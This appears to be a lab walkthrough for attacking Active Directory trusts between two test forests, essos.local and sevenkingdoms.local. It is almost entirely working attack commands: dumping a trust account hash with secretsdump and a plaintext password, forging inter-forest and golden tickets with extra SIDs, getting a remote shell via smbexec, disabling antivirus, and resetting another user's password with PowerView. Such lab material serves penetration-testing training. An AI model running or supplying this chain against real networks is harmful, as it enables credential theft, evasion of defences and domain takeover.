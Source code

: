 ### Trust ticket with external forest 
```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::
...


ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
 -domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
 -domain essos.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
 -spn krbtgt/sevenkingdoms.local trustdragon


export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug


export KRB5CCNAME=/workspace/trusts/external/trustdragon@sevenkingdoms.local.ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```

### Exploit acl with external trust golden ticket
- Connect as administrator on meereen, disable the antivrius to be able to use mimikatz and powerview
- Create the golden ticket with mimikatz matching the group kingsguard (RID 1130)

```
mimikatz # kerberos::golden /user:guard /domain:essos.local /sid:S-1-5-21-2203133648-1386395927-1390703624 /krbtgt:e58cf01ba6cc645da9f7ab1f28fc3934 /sids:S-1-5-21-1409754491-4246775990-3914137275-1130 /ptt
```

- And now use powerview to change stannis password
```
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity stannis.baratheon -AccountPassword $SecPassword -Domain sevenkingdoms.local
```
